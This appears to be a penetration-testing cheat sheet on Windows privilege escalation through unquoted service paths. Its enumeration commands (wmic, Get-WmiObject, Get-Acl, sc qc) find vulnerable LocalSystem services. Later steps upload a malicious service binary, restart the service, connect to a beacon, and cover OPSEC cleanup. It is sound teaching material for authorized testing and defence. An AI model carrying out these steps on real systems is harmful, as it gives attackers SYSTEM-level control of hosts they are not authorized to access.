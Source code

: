 ### **Host Privilege Escalation**

---

### **Important Service Properties:**

1. **Binary Path**:

   - Path of the executable (.exe) associated with the service.
   - Windows services are typically located in `C:\Windows\System32`.
   - Third-party services are usually found in `C:\Program Files` or `C:\Program Files (x86)`.

2. **Startup Type** (When the service starts):

   - **Automatic**: Starts when the system boots.
   - **Automatic (Delayed Start)**: Starts after a delay following system boot.
   - **Manual**: Starts only when explicitly requested.
   - **Disabled**: The service is disabled.

3. **Service Status** (Current state):

   - **Running**: The service is active.
   - **Stopped**: The service is not running.
   - **StartPending/StopPending**: The service is in the process of starting or stopping.

4. **Log On As** (Execution account):

   - The user account under which the service runs, such as **SYSTEM**, local accounts, or even **Domain Admins**. This makes it a key target for privilege escalation.

5. **Dependencies**:

   - Relationships with other services that depend on this one or that this service requires to function. Manipulating one service may indirectly impact others.

6. **Permissions**:
   - Services have specific permissions that control who can start, stop, or modify them.
   - Sensitive services, like **Windows Defender**, cannot be stopped even by administrators.

### **Precautions (OPSEC):**

- Restore the service configuration once you are done.
- Avoid interrupting critical business services.
- Obtain proper permissions if exploiting these vulnerabilities in an authorized environment.

---

### **Unquoted Service Paths**

### **Conditions for Exploitation:**

1. **Unquoted Path with Spaces**:

   - Example: `C:\Program Files\Vulnerable Services\Service 1.exe`.
   - Windows will attempt to execute the following binaries in order:
     - `C:\Program.exe`
     - `C:\Program Files\Vulnerable.exe`
     - `C:\Program Files\Vulnerable Services\Service.exe`.

2. **Write Permissions**:
   - The attacker must have write permissions on one of the intermediate directories (e.g., `C:\Program Files\Vulnerable Services`).

### **List services and their routes**

Get Service information

```bash
run wmic service get name, pathname
```

```powershell
powershell Get-Service | Format-List
```

### **Steps to Identify and Exploit Vulnerable Services**

### 1. Identify Services with Unquoted Paths and Spaces

Identify Services with Unquoted Paths and Spaces

```powershell
powershell Get-WmiObject Win32_Service | Where-Object { $_.PathName -like "* *" -and $_.PathName -notlike '"*"'}
```

Identify Services Executing as LocalSystem with unquoted Paths and Spaces

```powershell
Get-WmiObject Win32_Service | Where-Object {
    $_.PathName -like "* *" -and
    $_.PathName -notlike '"*"' -and
    $_.StartName -eq "LocalSystem"
} | Select-Object Name, PathName, StartName, State

```

### 2. Check Permissions on a Service Path

```powershell
powershell Get-Acl -Path "<you servive path>" | Format-List
```

Retrieves the access control list (ACL) for the specified path to identify if users have permissions to modify or create files.
Look for entries like `BUILTIN\Users Allow CreateFiles`

### 3. Upload a Malicious Payload

Upload a malicious binary to the directory with write permissions:

```bash
upload C:\Payloads\tcp-local_x64.svc.exe
```

```bash
mv tcp-local_x64.svc.exe Service.exe
```

---

### 4. Restart the Service

Stop and restart the service to execute the malicious binary:

```bash
run sc stop <service>

```

```bash
run sc start <service>
```

---

### 5. Establish a Connection

Use the `connect` command to link to the generated Beacon:

```bash
run netstat -anp tcp
```

```bash
connect localhost 4444
```

**Recommended Usage:**

- **wmic**: Use it when you quickly need executable paths or service names.
- **Get-Service**: Use it to get a more detailed and expanded view of services, especially if you're looking for information about their state, startup type, or associated user account.

### **Precautions (OPSEC):**

**Restore Original Configuration**:
Remove the malicious binary and restart the service after completing the task:

```bash
    rm Service.exe
```

```bash
    run sc start <service>
```

### **Why Use `sc.exe qc` Instead of Just `Get-WmiObject`**

- **`Get-WmiObject`**:

  - Provides basic details such as `PathName`, `StartName`, and service state.
  - Useful for initial filtering of services.

- **`sc.exe qc`**:
  - Offers more detailed information, including:
    - Unquoted paths.
    - The user account running the service (`LocalSystem`).
    - Startup configuration (`Auto`, `Manual`).
    - Critical dependencies.
  - Helps confirm whether a service meets **all conditions** for exploitation.

---

### **Recommended Workflow:**

1. **Use `Get-WmiObject` Query for Initial Filtering:**

   - Filter services with insecure paths and `LocalSystem` as the execution account.

2. **Run `sc.exe qc` for Each Service:**

   - Confirm the following:
     - Unquoted path.
     - Running as `LocalSystem`.
     - Startup configuration that allows stopping/starting the service.

3. **Check Write Permissions with `Get-Acl`:**
   - Only check relevant directories for exploitable permissions.
